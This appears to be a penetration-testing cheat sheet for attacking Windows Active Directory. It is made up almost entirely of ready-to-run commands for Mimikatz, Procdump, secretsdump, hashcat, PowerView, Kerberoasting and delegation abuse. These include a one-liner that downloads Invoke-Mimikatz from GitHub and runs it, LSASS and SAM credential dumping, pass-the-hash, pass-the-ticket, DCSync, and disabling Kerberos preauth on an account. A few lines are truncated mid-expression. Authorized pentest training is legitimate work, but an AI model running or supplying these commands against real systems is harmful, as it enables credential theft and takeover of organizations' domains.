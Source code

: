 # Mimikatz/PowerView/Rubeus

# Procdump

```bash
# windows
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp

# linux
pypykatz lsa minidump lsass.dmp -o ../creds/lsass-vuln0.dmp.txt
```

# Invoke-Mimikatz Commands

```bash
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds #Dump creds from memory
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'
```

# Mimikatz one-liner

This is good if the interactive mode is glitching out

```bash
.\mimikatz_x64.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit" > mimikatz_dump.txt
```

# Secretsdump.py

You can use these commands to save the sam, security, and system to extract the hashes offline

```bash
# dump sam, security and system files to get the hash
reg.exe save hklm\sam c:\Users\alice\Documents\sam.save
reg.exe save hklm\security c:\Users\alice\Documents\security.save
reg.exe save hklm\system c:\Users\alice\Documents\system.save
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

### Cracking NTLM hashes to get plaintext passwords

As a side note, you can crack LM hashes to get the passwords.

```bash
hashcat -m 1000 --force -a 0 08df3c73ded940e1f2bcf5eea4b8dbf6 ./passwords.txt
```

# Mimikatz Basic commands

These were taken from S1ckB0y1337 [here](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#mimikatz)

```jsx
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```

# PowerView

Here is a Cheatsheet of powerview commandlets to use

Domain info

```jsx
#Basic Domain Information
Get-NetDomain

#User Information
Get-NetUser
Get-NetUser | select samaccountname, description, logoncount
Get-NetUser -UACFilter NOT_ACCOUNTDISABLE | select samaccountname, description, pwdlastset, logoncount, badpwdcount
Get-NetUser -LDAPFilter '(sidHistory=*)'
Get-NetUser -PreauthNotRequired
Get-NetUser -SPN

#Groups Information
Get-NetGroup | select samaccountname,description
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=EGOTISTICAL-BANK,DC=local' | %{ $_.SecurityIdentifier } | Convert-SidToName

#Computers Information
Get-NetComputer | select samaccountname, operatingsystem
Get-NetComputer -Unconstrained | select samaccountname 
Get-NetComputer -TrustedToAuth | select samaccountname
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*
```

Other Enum

```jsx
Get-NetFileServer #Search file servers. Lot of users use to be logged in this kind of servers
Find-DomainShare -CheckShareAccess #Search readable shares
Find-InterestingDomainShareFile #Find interesting files, can use filters

#GPO
Get-NetGPO #Get all policies with details
Get-NetGPO | select displayname #Get the names of the policies
Get-NetGPO -ComputerName <servername> #Get the policy applied in a computer
gpresult /V #Get current policy

# Enumerate permissions for GPOs where users with RIDs of > -1000 have some kind of modification/control rights
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}

Get-ObjectAcl -SamAccountName <username> -ResolveGUIDs #Get ACLs of an object (permissions of other objects over the indicated one)
Get-PathAcl -Path "\\dc.mydomain.local\sysvol" #Get permissions of a file
Find-InterestingDomainAcl -ResolveGUIDs #Find intresting ACEs (Interesting permisions of "unexpected objects" (RID>1000 and modify permissions) over other objects
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReference -match "RDPUsers"} #Check if any of the interesting permissions founds is realated to a username/group
Get-NetGroupMember -GroupName "Administrators" -Recurse | ?{$_.IsGroup -match "false"} | %{Get-ObjectACL -SamAccountName $_.MemberName -ResolveGUIDs} | select ObjectDN, IdentityReference, ActiveDirectoryRights #Get special rights over All administrators in domain

# KERBEROASTING
Invoke-Kerberoast -OutputFormat john | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

Domain trust

```jsx
Get-NetDomainTrust #Get all domain trusts (parent, children and external)
Get-NetForestDomain | Get-NetDomainTrust #Enumerate all the trusts of all the domains found
Get-DomainTrustMapping #Enumerate also all the trusts
Get-ForestGlobalCatalog #Get info of current forest (no external)
Get-ForestGlobalCatalog -Forest external.domain #Get info about the external forest (if possible)
Get-DomainTrust -SearchBase "GC://$($ENV:USERDNSDOMAIN)" 
Get-NetForestTrust #Get forest trusts (it must be between 2 roots, trust between a child and a root is just an external trust)
Get-DomainForeingUser #Get users with privileges in other domains inside the forest
Get-DomainForeignGroupMember #Get groups with privileges in other domains inside the forest
```

### Privilege escalation (PE)

Asrep roast

```jsx
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
Disable Kerberos Preauth:
Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
Check if the value changed:
Get-DomainUser -PreauthNotRequired -Verbose
```

Constrained delegation (learn more about exploitation [here](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#unconstrained-delegation))

```jsx
#Enumerate Users and Computers with constrained delegation
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

#If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>

#Then using the TGT we have ask a TGS for a Service this user has Access to through constrained delegation
tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>

#Finally use mimikatz to ptt the TGS
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'
```

## PowerView Commands

Here is a really good list of powerview commands for enumeration

[OSCP Blog Series - OSCP Cheatsheet - PowerView Commands | Hackers Interview Media](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)